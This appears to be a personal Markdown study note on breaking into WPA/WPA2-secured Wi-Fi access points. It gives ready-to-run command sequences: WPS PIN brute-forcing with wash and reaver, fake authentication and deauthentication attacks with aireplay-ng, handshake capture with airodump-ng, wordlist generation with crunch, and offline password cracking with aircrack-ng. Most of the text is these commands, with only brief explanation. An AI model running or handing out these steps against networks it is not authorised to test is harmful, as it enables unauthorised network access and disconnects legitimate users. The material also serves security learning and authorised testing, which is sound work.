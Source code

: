 # Cracking the password of AP secured with WPA/WPA2

## WPS
- feature which can be enabled on WPA (for more security, don't enable)
- allows devices to connext without password
- authenication is done only by 8 digit pin
- Push Button Authentication (PBA)
  - Feature, where button needs to be pressed on router to make automatic connection

### Exploit WPS
- If PBA is activated, this won't work
- First enable monitoring mode as on 01_network_basics

```bash
wash --interface wlan0 # get all the neworks that use WPS (mon0 is in monitor mode)
```

- now bruteforce the network password wih `reaver`
    - -vvv is for showing as much information as possible
    - --no-associate is to not associate with target network, it is better to do it manualy

```bash
reaver --bssid B0:95:75:42:27:E3 --channel 44 --inerface wlan0 -vvv --no-associate
``` 

```bash
aireplay-ng --fakeauth 30 -a B0:95:75:42:27:E3 -h 5A:6E:23:9B:29:D8 wlan0 # asociae with nework (to not get ignored by network)
```

## Breaking WPA handshake
- Packets contain only data (no key or IV), therefor only handshake packets are usefull

### Capturing handshake in WPA communication
- Capture handshake:
  - to speedup the process of capuring hanshake, Deauthentication attack from 02_network_basics can be used.
```bash
airodump-ng --bssid B0:95:75:42:27:E3 --channel 44 --write wpa_hanshake wlan0 # capture all the packets on network, if handshake is capure, airodump-ng will display the information

aireplay-ng --deauth 4 -a B0:95:75:42:27:E3 -c 5A:6E:23:9B:29:D8 -D wlan0 # deauth attack
```

### Create wordlist using crunch
```bash
crunch [min] [max] [characters] -t [pattern] -o [Filename]
```

### Crack password from hanshake with wordlist
- aircrack-ng unpack the hanshake will be used to extract usefull information from the hanshake
- it will take password from word list and generate MIC (message inegrity code)
- then it will compare MIC in the handshake with generated MIC

```bash
aircrack-ng wpa_handshake-01.cap -w test.txt
```
- wpa_handshake-01.cap : hanshake file
- -w test.txt : our wordlist
